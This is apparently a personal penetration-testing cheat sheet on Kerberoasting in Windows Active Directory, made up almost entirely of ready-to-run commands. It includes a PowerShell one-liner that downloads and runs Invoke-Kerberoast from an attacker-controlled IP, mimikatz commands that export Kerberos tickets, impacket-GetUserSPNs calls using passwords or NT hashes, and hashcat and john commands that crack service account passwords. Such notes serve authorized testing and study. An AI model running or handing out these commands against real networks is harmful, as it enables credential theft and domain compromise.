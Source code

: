 # Ticket manipulations mimi

{% embed url="https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/" %}
invoke-kerberoast.ps1 automatically enumerate all service principal names in the domain, request service tickets for them, and export them in a format ready for cracking in both John the Ripper and Hashcat
{% endembed %}

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">powershell "IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.132:8080/invoke-kerberoast.ps1'); Invoke-Kerberoast -Domain 'domain.com' | fl"
<strong>
</strong><strong>Import-Module .\invoke-kerberoast.ps1 (or . .\invoke-kerberoast.ps1)
</strong>Invoke-Kerberoast -Domain 'domain.com' | fl
(-Server 'dc01.domain.com')

#with creds
$SecPassword = ConvertTo-SecureString 'Pass' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('doamin\user.x', $SecPassword)
Invoke-Kerberoast -Credential $Cred -Verbose | fl
</code></pre>

{% embed url="https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/" %}

### Request ticket

SPN e.g. `MSSQLSvc/xor-app23.xor.com:1433` `HTTP/CorpWebServer.corp.com`

{% code overflow="wrap" %}
```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '{SPN}' 

klist
or
sekurlsa::tickets
```
{% endcode %}

### Dump .kirbi for kerberoast (no need admin)

```
.\mimikatz.exe "kerberos::list /export" "exit"
```

{% hint style="info" %}
use scp to transfer / nc binary / [smb](../../general/common-operations-tty-ssh-rbash/file-transfer.md#smb)
{% endhint %}

#### With domain user pwd / hash, dump for kerberoash from kali

{% code overflow="wrap" %}
```

proxychains impacket-GetUserSPNs domain.local/user:"pwd" -dc-ip 10.10.10.10 -request

proxychains impacket-GetUserSPNs domain.local/user -hashes lm:nt -dc-ip 10.10.10.10 -request      
```
{% endcode %}

### kerberoast to crack service ticket cleartext pwd

```
kirbi2john exported.kirbi > johnkirbi.txt

hashcat -m 13100 --force johnkirbi.txt /usr/share/wordlists/rockyou.txt
john /usr/share/wordlists/rockyou.txt johnkirbi.txt --format=krb5tgs
```

```
tgsrepcrack /usr/share/wordlists/rockyou.txt xxxx.kirbi
```
